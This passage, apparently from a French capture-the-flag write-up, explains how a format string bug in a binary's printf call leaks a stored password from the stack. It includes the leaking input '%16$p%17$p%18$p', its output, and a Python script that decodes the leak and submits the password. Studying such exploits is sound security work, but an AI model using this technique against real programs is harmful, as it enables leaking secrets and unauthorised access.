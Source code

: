 Au moment de l'appel à `printf` la stack n'a pas bougé. Et `printf` va rechercher ses arguments dans les registres pour les 6 premiers, puis sur la pile.

Si on entre `AAAAAAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x. ....` :

- RDI (premier argument) : contient toute la chaîne

Ensuite `printf` va chercher autant d'arguments à afficher que de formateurs dans la chaîne :

`printf("AAAAAAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x", RSI, RDX, RCX, R8, R9, stack[0], stack[1] ...)`


Pour les conventions d'appel en x86_64 : https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame


Notre fameux mot de passe est à 11 offsets du début de la stack, plus les 5 registres (RSI, RDX, RCX, R8, R9), il faut indiquer à notre format string de lire à partir du 16e argument :

```bash

Veuillez décliner votre identité:
AAAAAAAA%16$p%17$p%18$p
Bonjour AAAAAAAA0x66783757552c34400x762a387d396341730x3173336e

Quel est votre mot de passe?
```


C'est bon, fin du game, y'a plus qu'à coder un petit script :



```python
rep = r.recvuntil(b':\n')
print(rep)

fmtstr = b'AAAAAAAA'  + b"%16$p%17$p%18$p"

r.send(fmtstr + NL)

leak = r.recv()

passwd = leak.split(b'\n\n')[0].split(b'0x')[1:]

print(passwd)

p = ""

for c in passwd:
    c = c.decode()
    c = bytes.fromhex(c)
    p += c.decode("ASCII")[::-1]

print(p)
print(len(p))

r.send(p.encode() + NL)

rep = r.recv()
print(rep.decode())
rep = r.recv()

print(rep.decode())
```
